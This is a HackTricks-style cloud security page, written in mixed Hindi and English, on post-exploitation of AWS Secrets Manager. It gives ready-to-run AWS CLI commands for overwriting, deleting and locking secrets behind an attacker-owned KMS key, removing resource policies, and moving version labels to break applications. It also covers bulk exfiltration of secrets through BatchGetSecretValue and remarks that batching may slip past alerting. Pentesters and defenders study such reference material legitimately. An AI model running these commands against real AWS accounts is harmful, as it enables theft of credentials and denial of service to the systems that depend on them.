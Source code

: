 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

For more information check:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

The **secrets themselves संवेदनशील जानकारी हैं**, इन्हें कैसे पढ़ना है यह जानने के लिए [check the privesc page](../aws-privilege-escalation/aws-secrets-manager-privesc.md)।

### DoS Change Secret Value

Secret के value को बदलकर आप उस value पर निर्भर सभी सिस्टम्स को **DoS** कर सकते हैं।

> [!WARNING]
> ध्यान दें कि पिछली values भी संग्रहीत रहती हैं, इसलिए पहले की value पर आसानी से वापस जाना संभव है।
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS: KMS key बदलना

यदि attacker के पास secretsmanager:UpdateSecret permission है, तो वे secret को attacker के-owned KMS key का उपयोग करने के लिए configure कर सकते हैं। वह key प्रारम्भ में इस तरह set up की जाती है कि कोई भी उसे access और use कर सके, इसलिए secret को नए key के साथ update करना possible होता है। यदि वह key accessible नहीं होती, तो secret को update नहीं किया जा सकता था।

secret के लिए key बदलने के बाद, attacker अपनी key की configuration इस तरह modify कर देता है कि केवल वही उसे access कर सके। इस तरह, secret के subsequent versions नई key से encrypted होंगे, और चूंकि उस key तक कोई access नहीं होगा, secret को retrieve करने की ability खो जाएगी।

यह ध्यान देने योग्य है कि यह पहुँच बंद होना केवल बाद के versions में ही होगा, जब secret की content बदल जाएगी, क्योंकि current version अभी भी original KMS key से encrypted है।
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Secret को डिलीट करना

किसी Secret को डिलीट करने के लिए न्यूनतम अवधि 7 दिन है
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

एक secret को पुनर्स्थापित करना संभव है, जो उन secrets की बहाली की अनुमति देता है जो deletion के लिए शेड्यूल किए गए हैं, क्योंकि secrets के लिए न्यूनतम deletion अवधि 7 days है और अधिकतम 30 days है। secretsmanager:GetSecretValue permission के साथ मिलकर, इससे उनके contents को प्राप्त करना संभव हो जाता है।

जिस secret को हटाए जाने की प्रक्रिया में है उसे recover करने के लिए, आप निम्नलिखित command का उपयोग कर सकते हैं:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

यह क्रिया उस resource policy को हटाने की अनुमति देती है जो नियंत्रित करती है कि कौन किसी secret तक पहुँच सकता है। यदि resource policy को किसी विशिष्ट उपयोगकर्ताओं के समूह को पहुँच देने के लिए कॉन्फ़िगर किया गया था तो इससे DoS हो सकता है।

resource policy को हटाने के लिए:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

एक secret की states का उपयोग secret के versions का प्रबंधन करने के लिए किया जाता है। AWSCURRENT उस सक्रिय संस्करण को चिह्नित करता है जिसे एप्लिकेशन उपयोग करते हैं, AWSPREVIOUS पिछला संस्करण रखता है ताकि आवश्यक होने पर आप रोलबैक कर सकें, और AWSPENDING rotation प्रक्रिया में एक नए संस्करण को वर्तमान बनाने से पहले उसे तैयार और मान्य करने के लिए उपयोग होता है।

एप्लिकेशन हमेशा AWSCURRENT वाले संस्करण को पढ़ते हैं। यदि कोई उस लेबल को गलत संस्करण पर स्थानांतरित कर देता है, तो ऐप्स अमान्य क्रेडेंशियल्स का उपयोग करेंगे और विफल हो सकते हैं।

AWSPREVIOUS स्वतः उपयोग में नहीं आता। हालांकि, यदि AWSCURRENT हटा दिया जाता है या गलत तरीके से पुनः असाइन किया जाता है, तो ऐसा लग सकता है कि सब कुछ अभी भी पिछले संस्करण के साथ चल रहा है।
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}





### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Secrets Manager के BatchGetSecretValue API का दुरुपयोग करके एक ही अनुरोध में 20 तक secrets पुनःप्राप्त करें। यह प्रति-secret GetSecretValue को बार-बार चलाने की तुलना में API-कॉल की मात्रा को काफी कम कर सकता है। यदि --filters (tags/name) का उपयोग किया जाता है तो ListSecrets permission भी आवश्यक है। CloudTrail फिर भी बैच से पुनःप्राप्त प्रत्येक secret के लिए एक GetSecretValue इवेंट रिकॉर्ड करता है।

Required permissions
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue प्रत्येक लक्षित secret के लिए
- secretsmanager:ListSecrets अगर --filters का उपयोग कर रहे हों
- kms:Decrypt उन CMKs पर जो secrets के लिए उपयोग किए गए हैं (यदि aws/secretsmanager का उपयोग नहीं कर रहे हैं)

> [!WARNING]
> ध्यान दें कि permission `secretsmanager:BatchGetSecretValue` अकेला secrets पुनःप्राप्त करने के लिए पर्याप्त नहीं है; आपको उन प्रत्येक secret को पुनःप्राप्त करने के लिए `secretsmanager:GetSecretValue` भी चाहिए।

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate फ़िल्टर के द्वारा (tag key/value या name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
आंशिक विफलताओं का प्रबंधन
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
प्रभाव
- कम API कॉल्स के साथ कई secrets का तेज़ “smash-and-grab”, जो संभावित रूप से GetSecretValue में स्पाइक्स के लिए ट्यून किए गए अलर्टिंग को बायपास कर सकता है।
- CloudTrail लॉग्स अभी भी बैच द्वारा प्राप्त प्रत्येक secret के लिए एक GetSecretValue इवेंट शामिल करते हैं।
